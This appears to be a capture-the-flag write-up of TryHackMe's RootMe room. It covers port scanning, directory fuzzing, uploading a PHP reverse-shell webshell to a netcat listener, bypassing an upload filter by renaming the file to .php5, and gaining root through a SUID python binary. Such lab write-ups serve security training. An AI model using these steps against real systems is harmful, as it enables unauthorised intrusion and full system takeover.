







# RootMe TryHackMe Room
## 1. Recon
```
nmap -sV <machine IP>
```
<br>
we see that there is an apache web server hosted on the machine. so it is only natural that we try to fuzz it.<br>
we use dirbuster, with the wordlist being:
```
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
we stumble across a folder called /panel/ <br>
when we access it, we come across a file upload page <br>
<br>

## 2. gaining access
Lets try uploading a webshell script to this form.<br> 
lets setup a listener for the reverse connection from the machine using:
```
nc -v -n -l -p <desired port>
```
we will be uploading the folowing reverse connection webshell: <br>
```
/usr/share/webshells/php/php-reverse-shell.php
```
Do not forget to change the IP and port to your system's port in the php script's code before uploading. <br>
When trying to upload, it says that PHP is not allowed (in portuguese for some reason). <br>
however, a simple change in the extension works like a charm. simply cannge the extension from php to php5 and it gets accepted with ease. <br>
now, we navigate to the upload folder on the website and click on the webshell that we just uploaded. <br>
 <br>
And hurray! we have succesfully spawned a reverse shell at our listener. <br>
 <br>
it seems that we are in the root directory. perfect!! <br>
The room asks us to enter the contents of user.txt file <br>
to find the file, we run
```
find / -name "user.txt"
```
the file is found in the <b>/var/www</b> folder. the cat command easily reveals the contents of the file.

## 3. privilege escalation
The room tells us to look for binaries with the SUID permission. we look for them with the following command:
```
cd /usr/bin
find . -perm /4000
```
we get the follwing result: <br>
<br>
we look at GTFObins to look at ways to exploit these binaries.
we find a way to exploit the python binary with the SUID permission to elevate our privileges. <br>
<br>
When we run the command: 
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
<b>we succesfully spawn a shell with root privileges!!</b><br>
<br>
from here, we navigate to the root folder and read the contents of root.txt <br>

with this we clear the room.<br>

